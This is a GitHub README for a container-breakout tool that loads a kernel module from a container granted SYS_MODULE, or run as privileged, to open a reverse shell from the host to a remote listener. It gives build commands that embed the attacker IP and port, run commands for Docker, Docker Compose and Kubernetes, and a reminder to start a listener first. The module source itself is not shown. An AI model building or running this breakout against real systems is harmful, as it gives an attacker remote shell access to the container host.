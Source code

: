 # Container Breakout Using Kernel Modules

Containers are extremely useful for rapidly deploying applications. Instead of running an entire operating system on the host (like a virtual machine), containers share the host resources. This makes escaping a container slightly easier than VM. Whether the managed platform is Docker or Kubernetes, this breakout will be effective. Part of the shared resources between container and the host OS, are the host's kernel modules. A privileged container can install, remove, and modify kernel modules on the host from within the container. This project exploits that capability to create a reverse from the local host to a remote server.

![Diagram of the breakout](https://github.com/SudoYummy/kernel_breakout/blob/main/images/diagram.png)

## Requirements
This breakout does not work in all use cases. **Two** things must be present for this exploit to function:
* The host system must be Linux
* The container must be started with **SYS_MODULE** capability enabled. The container can also be ran as "privileged".

# Usage

## Building the Image
By default, a simple build of the image will create a reverse shell on 127.0.0.1:4444. Be sure all piecies of the project are in the same directory of Dockerfile.
```
docker build -t imagename /path/to/Dockerfile
```

To specify an IP address and port insure that the image is built with the respective arguments.
```
docker build -t imagename --build-arg IP_ADDRESS=1.1.1.1 --build-arg PORT_NUMBER=23 /path/to/Dockerfile
```
## Running the image
The image can be ran with any container deployment platform either inline, or in the configuration file. Be sure to have a listener activated before running the container.

#### Docker
```
docker run --cap-add=SYS_MODULE imagename
```

#### Docker Compose
Include the following in the config:
```
cap_add:
- SYS_MODULE
```
#### Kubernetes
Include the following in the container specification:
```
spec:
    containers:
        image: imagename
        securityContext:
            capabilities:
                add:
                - SYS_MODULE
```

# References
For further reading and sources check the following pages:
* [Docker Prvilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation#privileged)
* [Linux Capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)
* [Technical write-up on how to escape an existing privileged container](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)
* [3 Docker Breakout Techniques](https://www.cybereason.com/blog/container-escape-all-you-need-is-cap-capabilities)
